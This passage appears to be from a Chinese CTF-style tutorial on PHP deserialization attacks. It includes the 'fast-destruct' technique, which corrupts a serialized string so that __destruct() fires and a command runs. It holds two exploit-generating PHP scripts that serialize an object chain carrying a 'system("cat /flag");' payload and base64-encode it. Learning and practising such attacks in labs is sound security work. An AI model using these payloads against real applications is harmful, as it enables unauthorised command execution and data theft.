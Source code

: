 ```php
}


$zhangsan = new ZhangSan('system("cat /flag");');
$user = new User($zhangsan);
$show = new Show($user);
$tmp = serialize($show);
echo base64_encode($tmp);
```

### 反序列化-PHP-006
> fast-destruct
>
> `unserialize()`函数在扫描到序列化字符串格式有误时会提取触发对象的`__destruct()`方法导致命令执行
```php
<?php

class ZhangSan
{
    public $name;
    public function __construct($name)
    {
        $this->name = $name;
    }
}

class User
{
    public $username;
    public function __construct($username)
    {
        $this->username = $username;
    }
}

class Show
{
    public $show;
    public function __construct($show)
    {
        $this->show = $show;
    }
}


$zhangsan = new ZhangSan('system("cat /flag");');
$user = new User($zhangsan);
$show = new Show($user);
$tmp = serialize($show);
// 在 最后添加一个 ;1}}}
$tmp = preg_replace('/;}}}$/',';1}}}',$tmp);
echo base64_encode($tmp);
```
